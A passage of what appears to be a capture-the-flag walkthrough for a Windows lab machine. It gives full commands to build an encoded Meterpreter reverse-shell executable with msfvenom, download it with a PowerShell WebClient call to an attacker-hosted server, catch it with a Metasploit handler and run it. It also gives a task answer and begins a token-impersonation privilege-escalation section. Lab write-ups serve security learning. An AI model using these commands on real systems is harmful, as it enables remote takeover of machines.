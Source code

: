 After creating this payload, download it to the machine using the same method in the previous step:

powershell "(New-Object System.Net.WebClient).Downloadfile('http://<Local_IP>:8000/shell-name.exe','shell-name.exe')"

Before running this program, ensure the handler is set up in metasploit:

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

﻿This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell

Start-Process "shell-name.exe"

This should spawn a meterpreter shell for you!
_________________________________________________________

What is the final size of the exe payload that you generated?

1. Generate Payload

    $msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<Local_IP> LPORT=1234 -f exe -o shell-name.exe

2.

    PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://<Local_IP>:8000/shell-name.exe','shell-name.exe')"

3.

    msf6 > use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST <Local_IP>
    LHOST => <Local_IP>
    msf6 exploit(multi/handler) > set LPORT 1234
    msf6 exploit(multi/handler) > run

4.

    PS C:\Users\bruce\Desktop> Start-Process "shell-name.exe"



**Answer: 73802**

### [Task 3] Privilege Escalation

![Alfred](https://i.imgur.com/0eEIphY.png)

Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:
